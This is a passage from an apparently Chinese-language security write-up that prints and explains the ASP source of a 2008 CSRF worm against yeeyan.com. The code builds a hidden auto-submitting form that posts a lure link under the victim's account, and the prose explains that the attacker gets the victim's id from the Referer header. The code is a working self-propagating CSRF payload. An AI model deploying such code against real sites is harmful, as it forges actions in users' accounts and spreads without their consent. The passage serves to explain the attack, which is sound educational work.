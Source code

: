 ```
        Response.Write(s)    

        ' Set http=Server.CreateObject("Microsoft.XMLHTTP")        

        ' http.open "POST","http://www.yeeyan.com/groups/newTopic/",False        

        ' c = "hello"        

        cc = "data[Post][content]=" & c & "&" & "ymsgee=" & f(0) & "&" & "ymsgee_username=" & f(0)    

        ' http.send cc        

    End If     
%>

```

其中yeeyan_iframe.asp代码如下：

```
<%
'author: Xlaile
'date: 2008-09-21
'this is the CSRF Worm of www.yeeyan.com
'id = Request("id")    

s = "<form method='post' action='http://www.yeeyan.com/groups/newTopic/' onsubmit='return false'>"    

s = s+"<input type='hidden' value='The delicious Tools for yeeyan translation:http://127.0.0.1/yeeyan.asp' name='data[Post][content]'/>    

s = s+"<input type='hidden' value=" + id + " name='ymsgee'/>"    

s = s+"<input type='hidden' value=" + id + " name='ymsgee_username'/>    

s = s+"</form>"    

s = s+"<script>document.forms[0].submit();</script>"    

Response.write(s)    

%>

```

这段代码只具备传播性，属于没有恶意的实验代码。从yeeyan.asp的代码中我们可以看到，攻击者就是依靠Referer字段得到了译言用户的id值。而yeeyan_iframe.asp是构造表单的代码，用来具体发起CSRF攻击。当用户登录译言网，并且点击攻击者的链接后，这个CSRF蠕虫就会开始传播。

0x08 还有什么东西？
=====

